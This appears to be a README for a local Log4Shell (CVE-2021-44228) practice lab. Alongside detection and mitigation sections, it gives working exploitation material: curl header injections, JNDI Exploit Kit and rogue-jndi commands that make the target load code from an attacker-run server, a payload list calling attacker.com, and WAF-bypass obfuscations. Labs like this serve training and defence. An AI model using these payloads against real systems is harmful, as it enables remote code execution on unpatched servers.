 # Log4Shell (CVE-2021-44228) Lab

## Description
Log4Shell is a critical Remote Code Execution (RCE) vulnerability in Apache Log4j 2, one of the most widely used Java logging frameworks. This vulnerability allows attackers to execute arbitrary code by injecting malicious JNDI lookups into log messages.

## Access
- **Vulnerable Application**: http://localhost:8089
- **LDAP Server**: No longer included (use external tools)

## Vulnerability Details
- **CVE**: CVE-2021-44228
- **CVSS Score**: 10.0 (Critical)
- **Affected Versions**: Log4j 2.0-beta9 to 2.14.1
- **Root Cause**: JNDI lookup feature enabled by default
- **Impact**: Remote Code Execution

## How Log4Shell Works

1. **User Input**: Attacker sends malicious payload
2. **Logging**: Application logs the input using Log4j
3. **JNDI Lookup**: Log4j processes ${jndi:ldap://} syntax
4. **External Request**: Log4j connects to attacker's server
5. **Code Execution**: Malicious class is loaded and executed

## Exploitation Examples

### 1. Basic Detection
```bash
# Test if vulnerable
curl -H "User-Agent: \${jndi:ldap://example.com/test}" http://localhost:8089
curl -H "X-Api-Version: \${jndi:ldap://example.com/test}" http://localhost:8089

# Common injection points
- User-Agent header
- X-Forwarded-For header
- X-Api-Version header
- Request parameters
- Form data
- JSON fields
```

### 2. Using Burp Collaborator
```bash
# Generate a Collaborator payload
${jndi:ldap://[collaborator-id].burpcollaborator.net/test}

# Inject in various locations
curl -H "User-Agent: \${jndi:ldap://xyz123.burpcollaborator.net/a}" http://localhost:8089
```

### 3. Using JNDI Exploit Kit
```bash
# Clone JNDI Exploit Kit
git clone https://github.com/pimps/JNDI-Exploit-Kit.git
cd JNDI-Exploit-Kit

# Start LDAP server
java -jar JNDI-Exploit-Kit.jar -L 0.0.0.0:1389 -H your-ip

# Inject payload
curl -H "X-Api-Version: \${jndi:ldap://your-ip:1389/Basic/Command/Base64/[base64-command]}" http://localhost:8089
```

### 4. Using rogue-jndi
```bash
# Install rogue-jndi
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package

# Start server
java -jar target/RogueJndi-1.1.jar --command "touch /tmp/pwned" --hostname "your-ip"

# Inject payload
curl -H "User-Agent: \${jndi:ldap://your-ip:1389/o=reference}" http://localhost:8089
```

## Payload Variations

### Basic Payloads
```bash
${jndi:ldap://attacker.com/a}
${jndi:ldaps://attacker.com/a}
${jndi:rmi://attacker.com/a}
${jndi:dns://attacker.com/a}
${jndi:iiop://attacker.com/a}
${jndi:corba://attacker.com/a}
${jndi:nds://attacker.com/a}
${jndi:nis://attacker.com/a}
```

### Bypass WAF/Filters
```bash
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker.com/a}
${${lower:j}ndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker.com/a}
${${upper:j}ndi:${upper:l}${upper:d}${upper:a}${upper:p}://attacker.com/a}
${${::-j}ndi:ldap://attacker.com/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attacker.com/a}
```

### Advanced Payloads
```bash
# Using environment variables
${jndi:${env:PROTOCOL:-ldap}://attacker.com/a}

# Nested lookups
${${::-j}${::-n}${::-d}${::-i}:${${::-l}${::-d}${::-a}${::-p}}://attacker.com/a}

# URL encoding
${jndi:ldap://attacker.com%2fa}
```

## Detection Methods

### 1. Log Analysis
```bash
# Search for JNDI patterns in logs
grep -E "\$\{jndi:" /var/log/*.log
grep -E "\$\{.*:-.*\}" /var/log/*.log
```

### 2. Network Monitoring
- Monitor for outbound LDAP connections (port 389/636)
- Monitor for outbound RMI connections (port 1099)
- Watch for connections to unusual external IPs

### 3. Using Scanners
```bash
# log4j-scan
python3 log4j-scan.py -u http://localhost:8089

# Nuclei
nuclei -u http://localhost:8089 -t cves/2021/CVE-2021-44228.yaml
```

## Mitigation (Not Applied in Lab)

1. **Update Log4j**: Upgrade to version 2.17.1 or later
2. **JVM Flag**: Set `-Dlog4j2.formatMsgNoLookups=true`
3. **Remove JndiLookup Class**:
   ```bash
   zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
   ```
4. **Environment Variable**: Set `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`
5. **WAF Rules**: Block ${jndi: patterns

## Real-World Impact
- Affected millions of applications worldwide
- Used to compromise major organizations
- Led to ransomware attacks
- Cryptocurrency mining
- Data theft and espionage

## Timeline
- **2021-11-24**: Vulnerability reported to Apache
- **2021-12-09**: Public disclosure
- **2021-12-10**: Mass exploitation begins
- **2021-12-10**: Version 2.15.0 released (incomplete fix)
- **2021-12-13**: Version 2.16.0 released
- **2021-12-17**: Version 2.17.0 released
- **2021-12-28**: Version 2.17.1 released (final fix)

## Additional Resources
- [Apache Log4j Security Page](https://logging.apache.org/log4j/2.x/security.html)
- [CISA Alert](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
- [log4j-scan Tool](https://github.com/fullhunt/log4j-scan)
- [JNDI Exploit Kit](https://github.com/pimps/JNDI-Exploit-Kit)

## Important Note
This lab uses a simplified setup. In real-world scenarios, you would need:
- An LDAP/RMI server to serve malicious payloads
- A web server to host compiled Java classes
- Proper exploit chains for the target JVM version 
